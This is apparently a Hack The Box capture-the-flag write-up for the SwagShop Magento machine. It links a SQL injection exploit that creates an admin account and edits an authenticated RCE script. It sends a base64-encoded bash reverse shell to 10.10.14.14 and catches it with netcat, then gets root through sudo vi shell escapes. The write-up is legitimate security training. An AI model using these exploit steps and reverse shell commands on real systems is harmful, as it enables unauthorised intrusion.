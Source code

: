 At http://swagshop.htb/var/session/ we found some session logs and we found the credentials ypwq:f4c8e326312d5ddb79c04b408e55010a:rp which seem to be the cookie for the user ypwq but it's a dead end.

After that we found **[this exploit](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)** and it creates a user ypwq:123 which we can use in http://swagshop.htb/admin

With a valid credentials, we can gain RCE with **[this exploit ](https://www.exploit-db.com/exploits/37811)**. We had some problems so we have to edit the following parameters

```bash
# Config.
username = 'ypwq'
password = '123'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.
```

And comment the following line

```bash
# br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
```

After that we encode a reverse shell and send it to execute and catch the shell with a netcat listener

```bash
┌──(venv) (kali㉿kali)-[~/Documents/MyApps/burbles-by-peluqqi]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC85MDAxIDA+JjEK

┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/SwagShop-10.10.10.140]
└─$ python 37811.py http://swagshop.htb/index.php/admin "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC85MDAxIDA+JjEK'|base64 -d|bash"

----------------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.140] 41440
bash: cannot set terminal process group (1653): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ whoami
www-data
```

Then we found that we can execute vi as sudo in /var/www/html/ folder

```bash
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Edit some file inside the folder with /usr/bin/vi and as we find in GTFOBin we can spawn an interactive shell by executing the commands (inside the editor) `:set shell=/bin/sh` and `:shell`

And we are root
